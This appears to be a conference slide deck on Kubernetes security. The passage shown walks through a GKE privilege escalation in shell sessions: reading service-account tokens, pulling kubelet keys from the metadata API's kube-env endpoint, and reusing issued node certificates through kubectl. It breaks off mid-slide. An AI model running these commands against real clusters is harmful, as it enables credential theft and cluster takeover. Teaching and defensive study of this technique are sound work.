autoscale: true
slidenumbers: true
footer: Med Mouine - GDG Nov 2021

[.text-emphasis: alignment(left), text-scale(.7)]
[.header-emphasis: text-scale(5), line-height(1), alignment(center)]
[.header-strong: #F1EDE8]

[.hide-footer]

</br>
</br>

# [fit] __Kubernetes__ attack & defence
## [fit] Privilege escalation through Kubelet TLS Bootstrapping in GKE  

# _</br>_
# _</br>_

## _  _

*Med Mouine*
*GDG November 2021*

---
[.slidenumber-style:  #66B089]
[.text: text-scale(1)]
[.text-emphasis: alignment(center)]

#  whoami

- SRE @ Botpress  
- B.Eng Grad 2020
- M.Sc (K8s, IoT, EC)


<!-- - DevOps course -->

</br>
</br>
</br>

_   _



<!-- [.column]
 medmouine
 yoyoman42_
 mohamed.mouine.2@ulaval.ca
\mohamed.mouine1998@gmail.com.ca -->

---

# plan

</br>




---


# Understanding


---

# K8s Architecture 


---

# Concepts



- Node
- Pods
- Containers
- Secrets
- ServiceAccounts<sup>(SA)</sup>
- Tokens
- __Kubelet__

---

### GKE



---

#### Network


---

[.header-emphasis: #F1EDE8]

## __*Auth*____entication__

[.column]
### **Normal users**

- Managed by GCP
- Isolated from K8s

 GCP user
 GCP service account
 G Suite user
 G Suite Google Group

[.column]
### **Service accounts**

- Managed by K8s
- Credentials
        _Certificates_
        _Tokens_
- Stored as _Secrets_ 

- __Mounted into Pods/Nodes__


--- 

[.header-emphasis: #F1EDE8]
## __*Auth*____orization__

[.column]

### **GKE**

- Admin		
- Cluster Admin		
- Cluster Viewer		
- Developer	
- Host Service Agent User	
- Viewer

[.column]

### **K8s**
- _RBAC_
- Namespaced
    - Roles
    - Rolebindings
                    Users
                    ServiceAccount
                    Groups
- ClusterRoles
- ClusterRoleBindings

---

[.header-emphasis: #F1EDE8]
## __*Auth*____orization__


</br>

--- 

#### Threat matrix



--- 

## Threat matrix
<br>

[.column]
- Using cloud credentials
- Exec into container
- Access cloud resources
- List K8s secrets

[.column]
- Access container SA
<br>
- Instance Metadata API
<br>
- Impersonate SA

---
<!-- [.background-color: #000000] -->

# Attack Scenarios


---

## Targets
[.header-emphasis:  alignment(center)]

[.column]
### **_App Sensitive Data_**


[.column]
### **_Admin Service Account_**


---

# Attack vectors
### 1. Pod Shell Access
### 2. Compromised GCP Credentials 

---

### 1. Pod Shell Access
### First Steps

[.code-highlight: none]
[.code-highlight: all]
[.code-highlight: 4-5]
[.code: #ECAF3F]

```python
root@hckd# pwd
/

root@hckd# id        
uid=0(root) gid=0(root) groups=0(root)

root@hckd# uname
Linux

root@hckd# cat /etc/*-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
...
```
---
### 1. Pod Shell Access
### Prepare Workbench

[.code-highlight: none]
[.code-highlight: 1-6]
[.code-highlight: 8-9]
[.code-highlight: 11-15]
[.code: #ECAF3F]

```python
# Install kubectl
root@hckd# K8S_URL=https://storage.googleapis.com/kubernetes-release...        
root@hckd# export PATH=$pwd:$PATH && curl -LO $K8S_URL && chmod 555 kubectl
....
root@hckd# kubectl version
Client Version: version.Info{Major:"1",....

root@hckd# command -v openssl
/usr/bin/openssl

root@hckd# env
  KUBERNETES_SERVICE_PORT_HTTPS=443
  KUBERNETES_PORT_443_TCP=tcp://10.8.0.1:443
  KUBERNETES_PORT_443_TCP_ADDR=10.8.0.1
  KUBERNETES_SERVICE_HOST=10.8.0.1
```

---
### 1. Pod Shell Access
### Prepare Workbench

[.code-highlight: 14]
[.code: #25DDC6]

```yaml
# Install kubectl
root@hckd# K8S_URL=https://storage.googleapis.com/kubernetes-release...        
root@hckd# export PATH=$pwd:$PATH && curl -LO $K8S_URL && chmod 555 kubectl
....
root@hckd# kubectl version
Client Version: version.Info{Major:"1",....

root@hckd# command -v openssl
/usr/bin/openssl

root@hckd# env
  KUBERNETES_SERVICE_PORT_HTTPS=443
  KUBERNETES_PORT_443_TCP=tcp://10.8.0.1:443
# KUBERNETES_PORT_443_TCP_ADDR=10.8.0.1
  KUBERNETES_SERVICE_HOST=10.8.0.1
```
---
### 1. Pod Shell Access
### Recon
[.code-highlight: none]
[.code-highlight: 1-2]
[.code-highlight: 4-15]

```coffeescript
root@hckd:/# ls -a /run/secrets/kubernetes.io/serviceaccount
.  ..   ca.crt   namespace   token

root@hckd:/# cat /run/secrets/kubernetes.io/serviceaccount/ca.crt | base64 -d
-----BEGIN CERTIFICATE-----
MIIELTCCApWgAwIBAgIRALzBzKkr57bIsgkyz+Do3xIwDQYJKoZIhvcNAQELBQAw
....

root@hckd:/# cat /run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUzI1NiIsImtpZCI6IkZTMEdpZzJTT1Rwc1ByMzJCLUw4U2xjS2VnZnhaVmxPd21Tal9ad
....

root@hacked-pod:/hack# cat  /run/secrets/kubernetes.io/serviceaccount/namespace
default
```

---
### 1. Pod Shell Access
### Default Service Account
[.code: #ECAF3F, #ECAF3F, #25DDC6, #25DDC6, #FFFFFF]

[.code-highlight: none]
[.code-highlight: 1-8]
[.code-highlight: 10-11]
[.code-highlight: 13-17]

```coffeescript
root@hckd:/# TOKEN=`cat /run/secrets/kubernetes.io/serviceaccount/token`
root@hckd:/# CERT=`cat /run/secrets/kubernetes.io/serviceaccount/ca.crt
root@hckd:/# NS=`cat /run/secrets/kubernetes.io/serviceaccount/namespace`
root@hckd:/# alias khack=kubectl                            \
#             --token=$TOKEN                                  \
#             --certificate-authority= $CERT                  \
#             -n $NS                                          \
#             --server=https://$KUBERNETES_PORT_443_TCP_ADDR  \

root@hckd:/# khack auth can-i get pods
no

root@hckd:/# khack get pods
Error from server (Forbidden): pods is forbidden: User 
"system:serviceaccount:default:default" cannot list resource "pods" in 
API group "" in the namespace "default"
```
---
### GCP Metadata API

[.code-highlight: none]
[.code-highlight: all]

Internal Metadata API:
* Method: GET
* Url: http://metadata.google.internal/
* Headers: 
    - Metadata-Flavor: Google

Kube-env Attribute Endpoint:
-> http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env

```python
root@hckd:/# curl -s -H 'Metadata-Flavor: Google' $KUBE_ENV_URL
...
CA_CERT: LS0tLS1CRUdJTiBDRVJUSUZJ...
KUBELET_CERT: LS0tLS1CRUdJTiBDRVJ...
KUBELET_KEY: LS0tLS1CRUdJTiBSU0Eg...
...
```

---
### 2. Attack Vector
## GCP Credentials

List/Describe Nodes



Get Node Metadata --> Target = **kube-env**


---

# Exploit


---
[.text: alignment(center), text-scale(.9), line-height(1)]
[.header: alignment(left)]
[.footer-style: text-scale(1), alignment(left)]
[.slidenumber-style: text-scale(1), alignment(right)]
### Exploit
## Decode Certificates

CA\_CERT


[.column]
KUBELET_CERT (TPM\_BOOTSTRAP\_CERT)


[.column]
KUBELET_KEY (TPM\_BOOTSTRAP\_KEY)


---
### Prepare workbench
[.code-highlight: none]
[.code-highlight: 1-2]
[.code-highlight: 4-9]

```bash
root@hckd# ls
apiserver.crt  kubelet.crt  kubelet.key

root@hckd# alias khack="kubectl \
#               --client-certificate    kubelet.crt           \
#               --client-key            kubelet.key           \
#               --certificate-authority apiserver.crt         \
#               --server https://${KUBERNETES_PORT_443_TCP_ADDR}"
```

---
[.autoscale: false]
[.code-highlight: none]
[.code-highlight: 1]
[.code-highlight: 2-3]
[.code-highlight: 5-6]
[.code-highlight: 8-9]
[.code-highlight: 11-12]


### Recon
[.code: #ECAF3F, #ECAF3F, #25DDC6, #25DDC6, #FFFFFF]

```coffeescript
root@hckd# khack get pods
Error from server (Forbidden): pods is forbidden: User "Kubelet" cannot list resource
 "pods" in API group "" in the namespace "default"

root@hckd# khack auth can-i get pods
no

root@hckd# khack auth can-i get certificatesigningrequests
yes

root@hckd# khack auth can-i create csr
yes
```

---
[.autoscale: false]
[.code-highlight: 8-12]


### Recon
[.code: #ECAF3F, #ECAF3F, #25DDC6, #25DDC6, #FFFFFF]

```coffeescript
root@hckd# khack get pods
Error from server (Forbidden): pods is forbidden: User "Kubelet" cannot list resource
 "pods" in API group "" in the namespace "default"

root@hckd# khack auth can-i get pods
no

root@hckd# khack auth can-i get certificatesigningrequests
yes

root@hckd# khack auth can-i create csr
yes
```
## Bingo!

---

### List certificate signing requests
[.code: #ECAF3F, #ECAF3F, #25DDC6, #25DDC6, #25DDC6]
[.code-highlight: 1]
[.code-highlight: 3-4]

```coffeescript
  root@hckd# khack get csr
  NAME            SIGNERNAME                    REQUESTOR                      CONDITION
  node-csr-CW2... kubernetes.io/kube-apiserv... kubelet                        Approved,Issued
  csr-rr7rg       kubernetes.io/kubelet-serving system:node:gke-cluster-1-...  Approved,Issued
```
[.code-highlight: none]
```
  root@hckd# khack get csr node-csr-CW2... -o yaml
  apiVersion: certificates.k8s.io/v1beta1
  kind: CertificateSigningRequest
  ....
  status:
    certificate: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUNWVENDQVQyZ0F3SUJBZ0l
    SQVAyanRSY3JidUtEYjVSUGN5eHlsNEV3RFFZSktvWklodmNOQVFFTEJRQXcKTHpFdE1Dc0dBMVV
    FQXhNa00yVTVNV00yT1RjdE9HWXpPUzAwTkRRMUxXRXpNR1V0WkRrd1lqUTJNV1JtTURVeApNQjR
    YRFRFNE1URXlPVEUzTURNeE0xb1hEVEl6TVRFeU9ERTNNRE14TTFvd1ZqRVZNQk1HQTFVRUNoTU1
    jM2x6CmRHVnRPbTV2WkdWek1UMHdPd1lEVlFRREV6UnplWE4wWlcwNmJtOWtaVHBuYTJVdFkyeDF
    ....
```

---

### List certificate signing requests
[.code: #ECAF3F, #25DDC6, #ECAF3F, #ECAF3F, #ECAF3F]
[.code-highlight: 3]

```yaml
  root@hckd# khack get csr
  NAME            SIGNERNAME                    REQUESTOR                      CONDITION
# node-csr-CW2... kubernetes.io/kube-apiserv... kubelet                        Approved,Issued
  csr-rr7rg       kubernetes.io/kubelet-serving system:node:gke-cluster-1-...  Approved,Issued
```
[.code-highlight: none]
```
  root@hckd# khack get csr node-csr-CW2... -o yaml
  apiVersion: certificates.k8s.io/v1beta1
  kind: CertificateSigningRequest
  ....
  status:
    certificate: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUNWVENDQVQyZ0F3SUJBZ0l
    SQVAyanRSY3JidUtEYjVSUGN5eHlsNEV3RFFZSktvWklodmNOQVFFTEJRQXcKTHpFdE1Dc0dBMVV
    FQXhNa00yVTVNV00yT1RjdE9HWXpPUzAwTkRRMUxXRXpNR1V0WkRrd1lqUTJNV1JtTURVeApNQjR
    YRFRFNE1URXlPVEUzTURNeE0xb1hEVEl6TVRFeU9ERTNNRE14TTFvd1ZqRVZNQk1HQTFVRUNoTU1
    jM2x6CmRHVnRPbTV2WkdWek1UMHdPd1lEVlFRREV6UnplWE4wWlcwNmJtOWtaVHBuYTJVdFkyeDF
    ....
```

---

### Describe CSR
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 3]

```yaml
  root@hckd# khack get csr
  NAME            SIGNERNAME                    REQUESTOR                      CONDITION
# node-csr-CW2... kubernetes.io/kube-apiserv... kubelet                        Approved,Issued
  csr-rr7rg       kubernetes.io/kubelet-serving system:node:gke-cluster-1-...  Approved,Issued
```

[.code-highlight: all]
[.code-highlight: 5-10]
```yaml
  root@hckd# khack get csr node-csr-CW2... -o yaml
  apiVersion: certificates.k8s.io/v1beta1
  kind: CertificateSigningRequest
  ....
  status:
    certificate: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUNWVENDQVQyZ0F3SUJBZ0l
    SQVAyanRSY3JidUtEYjVSUGN5eHlsNEV3RFFZSktvWklodmNOQVFFTEJRQXcKTHpFdE1Dc0dBMVV
    FQXhNa00yVTVNV00yT1RjdE9HWXpPUzAwTkRRMUxXRXpNR1V0WkRrd1lqUTJNV1JtTURVeApNQjR
    YRFRFNE1URXlPVEUzTURNeE0xb1hEVEl6TVRFeU9ERTNNRE14TTFvd1ZqRVZNQk1HQTFVRUNoTU1
    jM2x6CmRHVnRPbTV2WkdWek1UMHdPd1lEVlFRREV6UnplWE4wWlcwNmJtOWtaVHBuYTJVdFkyeDF
    ....
```

---

### Decode & access csr
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 1-4]
[.code-highlight: 7-14]

```coffeescript
root@hckd# khack get csr node-csr-CW2...        \
      -o jsonpath='{.status.certificate}'       \
      | base64 -d >                             \
      node.crt


root@hckd# cat node.crt
-----BEGIN CERTIFICATE-----
MIIDGjCCAYKgAwIBAgIQQavGj5hqouyM49FHxtCWzDANBgkqhkiG9w0BAQsFADAv                  
MS0wKwYDVQQDEyQyYzFiZmIwYi00ZWZiLTRmZGYtYTk0ZS02OTFkOGZkOGFhOGQw
HhcNMjExMTI0MDQ1ODI5WhcNMjYxMTIzMDQ1ODI5WjBWMRUwEwYDVQQKEwxzeXN0
ZW06bm9kZXMxPTA7BgNVBAMTNHN5c3RlbTpub2RlOmdrZS1jbHVzdGVyLTEtZGVm
....
```

---
### Exploit pwnd certificate
[.code-highlight: 1-2]
[.code-highlight: 4-9]
[.code-highlight: 5]

```coffeescript
root@hckd# ls
apiserver.crt  kubelet.crt  kubelet.key  node.crt

root@hckd# alias khack2="kubectl \
#               --client-certificate    node.crt           \
#               --client-key            kubelet.key           \
#               --certificate-authority apiserver.crt         \
#               --server https://${KUBERNETES_PORT_443_TCP_ADDR}"


root@hckd# khack2 get pods
error: tls: private key type does not match public key type
```

---
### Exploit pwnd certificate
[.code-highlight: 11-13]

```coffeescript
root@hckd# ls
apiserver.crt  kubelet.crt  kubelet.key  node.crt

root@hckd# alias khack2="kubectl \
